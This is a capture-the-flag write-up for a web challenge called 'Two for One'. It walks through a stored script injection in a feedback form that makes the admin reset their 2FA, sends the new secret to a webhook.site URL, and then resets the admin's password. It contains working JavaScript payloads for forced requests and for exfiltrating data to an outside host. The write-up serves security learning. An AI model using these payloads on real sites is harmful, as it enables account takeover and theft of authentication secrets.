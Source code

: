 ```yaml
---
grand_parent: Categories
parent: Web
title: Two for One
nav_order: 6
---
```


# Two For One

```
Need to keep things secure? Try out our safe, the most secure in the world!
```

## Challenge

> TL;DR: CSRF vulnerability in feedback page, force admin to reset the 2FA and exfiltrate this secret, then force admin to reset password. Login as admin to view the flag using the new 2FA set with your Google authenticator

This challenge makes use of the Google Authenticator to setup a 2FA system. If we try to sign up with the username `admin`, the server would mention that it is already taken. So, let's keep that in mind in case we need to conduct any form of account takeover.

<img src="images/twoforone-1.png">

Sign up for an account anyway. Setup the 2FA presented at this stage and click on the button to continue:

<img src="images/twoforone-2.png">

Sign into the created account and check the settings page:

<img src="images/twoforone-3.png">

Immediately, we see the that the Reset 2FA button does not require a valid 2FA token, nor the existing password. This means that if we could perform CSRF, then we can forcefully reset the 2FA for the victim.

Just below that reset 2FA field, we see a Feedback form with a textfield. The caption says "We would love to know what is on your mind", which is a hint that client-side attack is likely the intended path forward. We attempt to inject a `<script>` tag which will redirect the user to our controlled page, to see if it is successful:

```html
<script>
    document.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017";
</script>
```

Sure enough, we see the incoming request:

<img src="images/twoforone-4.png">

Since we can perform CSRF, let's try to reset the 2FA of the visitor, which we are assuming to be the `admin` user. Inject the following into the feedback field:

```html
<!-- Step 1 - CSRF to reset 2FA, steal the new 2FA code -->
<script>
fetch("/reset2fa", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    }
    }).then(res => {
        if (res.status != 200) {
            window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
        } else {
            res.json().then((json) => {
                window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?jsonUrl=" + json.url;
            });
        }
    });
</script>
```

This code is actually found on the challenge site itself, so we don't have to code it from scratch. Upon a successful `/reset2fa` request, the new 2FA secret is sent in the response. We would then exfiltrate this secret to our controlled domain.

<img src="images/twoforone-5.png">

With this new secret, we can setup the 2FA on our Google Authenticator to takeover the 2FA authenticator for the `admin` user. So we set it up, and now we have to reset the `admin` password using the reset function.

To do so, we have to perform another CSRF attack, this time using the following payload (again the code is taken from the challenge site) to change the password to `iWanFlagz`:

```html
<!-- Step 2 - CSRF to reset password using the 2FA generated from our Authenticator -->
<script>
data = {
    "otp": "REPLACE_ME",
    "password": "iWanFlagz",
    "password2": "iWanFlagz"
}

fetch("/reset_password", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(data)
    }).then(res => {
    if (res.status != 200) {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
    } else {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=passwordChanged";
    }
});
</script>
```

We would have to include a valid OTP value this time, so remember to replace it before sending the CSRF payload over. Wait for the request to come in:

<img src="images/twoforone-6.png">

Now the password is changed to `iWanFlagz`. We are now able to login as the `admin` user with our 2FA and the new password, and view the flag:

<img src="images/twoforone-7.png">

Flag: `flag{96710ea6be916326f96de003c1cc97cb}`
